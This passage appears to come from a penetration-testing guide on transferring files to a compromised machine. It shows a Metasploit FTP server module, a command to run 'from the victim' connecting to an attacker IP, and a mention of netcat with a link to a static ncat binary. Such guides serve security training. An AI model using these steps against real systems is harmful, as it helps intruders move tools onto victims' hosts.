 Or use metasploit:

```text
msf > use auxiliary/server/ftp
```

and then connect from the victim using

```text
ftp 192.168.0.1
```

### nc

A lot of unix systems have a build in nc utility which can be used to transfer files, same way as in windows.

You can download a compiled version of nc to unix from:

[https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86\_64/ncat](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/ncat)





